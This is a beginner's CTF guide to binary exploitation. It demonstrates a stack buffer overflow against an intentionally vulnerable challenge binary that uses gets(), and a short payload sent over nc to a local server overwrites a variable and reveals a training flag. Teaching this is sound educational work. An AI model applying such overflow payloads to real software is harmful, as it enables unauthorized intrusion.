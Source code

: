 # Binary Exploitation / Pwn
Binary Exploitation or *Pwn* are problems on which the contestants are challenged to *hack* a program. One main thing to notice is that in this type of problems, the contestants are  given a connection to the remote challenge server, so **the flag is not on the program itself** but somewhere in the remote server. The usual way of solving binary exploitation problems is to hack and debug the program on your local machine first (may involve writing a fake flag), writing a script to do the same thing to the remote server, then executing the script. Pwn problems are mostly binary (ELF/Compiled C) program exploitation. Typical vulnerabilities in these programs include buffer overflow, format string attack, integer overflow, heap exploitation and more.

## Tools
The tools you might need to solve Pwn problems:
- Debugger ([gdb](http://www.gdbtutorial.com/tutorial/how-install-gdb), [gdb-peda](https://github.com/longld/peda)) - to RE compiled programs.
- Disassembler ([IDA](https://www.hex-rays.com/products/ida/), [Ghidra](https://ghidra-sre.org/), etc.) - to RE compiled programs.
- Scripting tool ([pwntools](https://github.com/Gallopsled/pwntools)) - to automate input to the program.
- etc.

## Example Problem
You can find the file [here](./example/README.md).

Follow the instruction to setup the remote server.

Notice that in the **real** CTF, the contestants are only given the [binary](./chall/bof0) and the connection to the remote server. This binary program is the exact same program running on the server.

*If you want to run the challenge with docker you may need to install [docker](https://www.docker.com/) and [docker-compose](https://docs.docker.com/compose/install/) on your machine.*


## How to Solve
### Observation

First off, try connecting to the *remote* server:
```
$ nc localhost 10001
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: 
```
*You can close the connection with **Ctrl-C***

Try the program locally:
```
$ ./bof
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: 
```
The program asks for an input, if our input changes the local variable from `'stif'` to `'h3h3'`, we get the flag.

To understand the program better, let's open it up in IDA (or gdb if you are hardcore).

Launch IDA, load the program, and disassemble the main function (F5).
```
  ...
  setbuf(_bss_start, 0LL);
  puts("hi! change the string variable to h3h3 and you'll get your flag!");
  vuln();
  exit(0);
}
```

Seems that the main function calls the `vuln()` function, let's disassemble that function.
```
  ...
  char v1; // [rsp+8h] [rbp-18h]
  char s1[8]; // [rsp+10h] [rbp-10h]  <- allocation
  ...

  ...
  *(_QWORD *)s1 = 0x66697473LL;       <- s1 = 'stif' (or 0x66697473LL in hex)
  printf("your input: ");
  gets(&v1);                          <- our input!!!
  printf("string is: %s\n", s1);
  if ( !strcmp(s1, "h3h3") )          <- compare s1 to h3h3
  {
    puts("congrats! here's your flag");
    readFlag();                       <- this function reads the flag
  }
  ...
}
```

From that disassembled code, we know that the program asks for our input **USING `gets()`**, store it in `v1`, and then compares `s1` (which is not our input) to `'h3h3'`.

At first this may seem impossible, how can we change a pre-initialized variable given our control to another variable. The key is on how the program asks for our input, using `gets()`. The function `gets()` is an unsafe function that **DOESN'T LIMIT THE CHARACTER ENTERED**, this means that we can bypass the initially allocated space for our input. You can see how `v1` and `s1` are allocated on the header of the disassembled function in IDA.

Here is an illustration on how the variables `v1` and `s1` are allocated (in reference to `rbp`). Keep in mind that in C, 1 character = 1 byte.
```
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
|   |   |   |   |   |   |   |   | s | t | i | f |   |   |   |   | -> rbp
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 -18 -17 -16 -15 -14 -13 -12 -11 -10 -0f -0e -0d -0c -0b -0a -09
  |____________v1_____________|   |_____________s1____________|
```

So, to change `s1` to `'h3h3'`, we need to input any 8 characters (from rbp-0x18 to rbp-0x11) plus `'h3h3'` itself. The following illustration pictures the input `'GANTENGZh3h3'`.
```
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
| G | A | N | T | E | N | G | Z | h | 3 | h | 3 |   |   |   |   | -> rbp
+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+---+
 -18 -17 -16 -15 -14 -13 -12 -11 -10 -0f -0e -0d -0c -0b -0a -09
  |____________v1_____________|   |_____________s1____________|
```
### Solve
Now try inputing the payload to the program locally.
```
$ ./bof
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: GANTENGZh3h3
congrats! here's your flag
Segmentation fault (core dumped)
```

You will not get the flag this way because the program is being run locally in your machine, hence the `SEGFAULT`.
Try connecting to the server and input the payload.
```
$ nc localhost 10001
```
```
hi! change the string variable to h3h3 and you'll get your flag!
your input: GANTENGZh3h3
congrats! here's your flag
CTFGUIDE{3z_b0o00ooo0ff}
```

---

## External Resources
*TBD*
